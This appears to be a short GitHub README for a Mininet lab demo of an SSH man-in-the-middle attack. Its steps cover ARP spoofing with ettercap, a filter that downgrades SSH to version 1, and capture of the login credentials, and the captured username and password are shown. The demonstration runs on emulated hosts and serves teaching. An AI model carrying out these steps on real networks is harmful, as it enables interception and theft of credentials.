 # mininet_sshmitm
<h1>SSH Man In the Middle Attack Demo using Mininet</h1>

***
## Introduction

This 
1. Install Mininet
2. Run sshmitm.py
3. xterm h1 h2 h3
4. [h3]: echo 1 > /proc/sys/net/ipv4/ip_forward, cat /proc/sys/net/ipv4/ip_forward
5. [h3]: ettercap -G --filter etter_filter_ssh_co
6. Check option only checks 'Promisc Mode'
7. Sniffing -> Unified Sniffing -> h3-eth0
8. Hosts->Scan for Hosts
9. Hosts -> Host List -> 192.168.0.3 Add to target 1, 192.168.0.4 Add to target 2.
10. Check. Targets -> Current Targets
11. Mitm -> ARP Spoofing -> Sniff Remote Connections check -> Press OK, Check log for group
12. Start -> Start Sniffing
13. h1: ssh -1 mininet@192.168.0.4
14. If 'WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!' shows, ssh-keygen -f "/root/.ssh/known_hosts" -R 192.168.0.4
retry
15. See both '[SSH Filter] SSH downgraded from version 2 to 1' and 'SSH : 192.168.0.4:22 -> USER: mininet  PASS: mininet' in the ettercap conole
16. Any decoded will be in decoded.log, and undecoded in logfile.log. Tail -f in decoded.log to see the updates
